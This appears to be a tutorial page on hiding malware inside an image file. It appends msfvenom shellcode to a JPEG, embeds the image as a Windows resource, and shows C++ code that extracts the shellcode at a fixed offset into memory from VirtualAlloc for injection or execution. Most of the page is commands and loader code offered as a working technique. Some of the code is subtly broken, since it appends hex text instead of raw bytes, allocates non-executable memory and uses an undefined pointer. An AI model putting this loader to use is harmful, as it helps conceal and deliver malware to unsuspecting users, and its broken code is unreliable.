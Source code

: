 ```yaml
---
layout: default
---
```


# Hiding malware within an Image

The basic idea is to hide the malware inside the concatenated image file. The malware can be hidden in the binary data of the image file. This can be done by adding the malware code to the end of the image file, after the image data. When the concatenated image file is downloaded and opened, the image will display normally, but the malware code will be executed in the background.

1. Download a random image and find the length of byte. We can `xxd` for this purpose.

```
xxd -i saturn.jpg
```

![Saturn.jpg with XXD](/docs/resources/malware/saturn-xxd.jpg)

As shown above, the command precisely display the size of the image in bytes. Take a note.

2. Create a binary with msfvenom and find its size. For demonstration purposes, lets use a message box binary.

```bash
xxd -i msgbox64.bin
```

![msgbox](/docs/resources/malware/msgbox-size.png)

Once we have both the file length, concatenate the shellcode with the image file.

```bash
xxd -p msgbox64.bin | tr -d "\n" >> saturn.jpg
```

3. Create the resource file for the image.

```cpp
#include "resources.h"

IMAGE RCDATA "saturn.jpg"
```

Similarly the` resource.h` file

```cpp
#define IMAGE 100
```

4. Final code for reading the malicious image file for the resource would be:

```cpp
// Extract payload from resources section
res = FindResourceA(NULL, MAKEINTRESOURCE(IMAGE), RT_RCDATA);
resHandle = LoadResource(NULL, res);
image = (char *) LockResource(resHandle);
image_len = SizeofResource(NULL, res);
```

The `image` character pointer points to first byte of the malicios image, and `image_len` the corresponding length of the image.

5. Extract the shellcode

The `end` character pointer would point to the first byte of binary.

We know already made of note of image length as well as the shellcode length. We can find the corresponding offset that would point to the first byte of the shellcode.

```
offset = image + 2653; 
memcpy(p0,offset,336);

exec_mem = VirtualAlloc(0, 336, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
RtlMoveMemory(exec_mem, p0, 336);
```

We then use the `memcpy` command to copy the shellcode from the image to another location in memory `p0`. Using `VirtualAlloc` shellcode size memory is allocated. Then `RTLMoveMemory` function is used to copy the contents from `p0` memory block to a `exec_mem` memory block. At this point the code could be used to inject into a process or execute as a child process.




